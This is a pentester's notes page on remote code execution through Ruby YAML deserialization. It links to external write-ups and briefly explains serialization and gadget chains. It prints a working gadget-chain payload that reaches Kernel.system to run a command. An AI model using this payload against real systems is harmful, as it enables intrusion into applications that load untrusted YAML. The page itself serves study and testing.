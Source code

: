 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/penetration-tester/remote-code-execution-through-yaml-deserialization/"}
---
```


[[Cybersecurity/Penetration Tester/Remote Code Execution\|RCE]] through YAML deserialization as described: [here](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```



Even more in depth: [Ruby 2.X Universal RCE Deserialization Gadget Chain](https://www.elttam.com/blog/ruby-deserialization/#content)

`Serialization` is the process of converting an object into a series of bytes which can then be transferred over a network or stored on the filesystem or in a database. The stored bytes include all the relevant information required to reconstruct the original object. `Deserialization` is the process whereby the original object is reconstructed.

In Ruby, this is called marshalling and unmarshalling. The Marshal class has methods `dump` and `load` which can be used.

Deserialization of untrsuted data can be bad. Developers shouldn't assume that an attacker cannot view or tamper with serialized objects just because the format is opaque.

Code reuse attacks aer possible where pieces of already available code, called gadgets, are exectuted to perform an unwated action such as executing an arbitrary system command. Attackers can set instance variables to arbitrayr values or use a gadget to invoke a second gadget. This is called a gadget chain.






